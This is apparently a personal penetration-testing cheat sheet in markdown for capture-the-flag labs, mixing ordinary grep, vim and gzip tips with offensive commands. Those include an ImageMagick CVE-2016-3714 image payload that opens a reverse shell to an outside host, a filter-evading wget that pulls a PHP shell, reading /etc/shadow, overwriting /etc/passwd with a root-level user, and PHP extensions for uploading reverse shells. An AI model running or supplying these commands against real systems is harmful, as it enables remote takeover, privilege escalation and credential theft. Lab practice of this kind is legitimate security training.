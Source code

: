 [back](/README.md)

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```


#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
```
```
`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`
```

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```sh
gzip -d file.gz
```
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"
grep -n #numbers
grep -i #do not care abuot regex
grep -c #how many times
grep linux * -r recursive # in all files
точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#' #begins with
'^$' #пустые строки
-e '^(#|$)' #начинается или с # или с $(пустая строка)
grep -e 'colou?r' # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root' # only word root, not asdrootas
\grep #unalias
-A5 #five line after the math
-B5 #before
-C5 #before and after
-e '[0-9]{5,6}/tcp' file.txt #от 5 до 6 цифр от 0 до 9
-E '[0-9]$' #number at the end of line
-E '\s*' # space or tab 
+ # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### vim
```vim
shift+h #cursor on top of the screen
shift+m #cursor on middle of the screen
shift+h #cursor on bottom of the screen
gj #go to 1 line down if text in 1 line
```
#### [steal admin cookie/sqli](/other/src/marketplace.md) (tryhackme:marketplace)
#### [ohmyweb](./src/omyweb.md)

---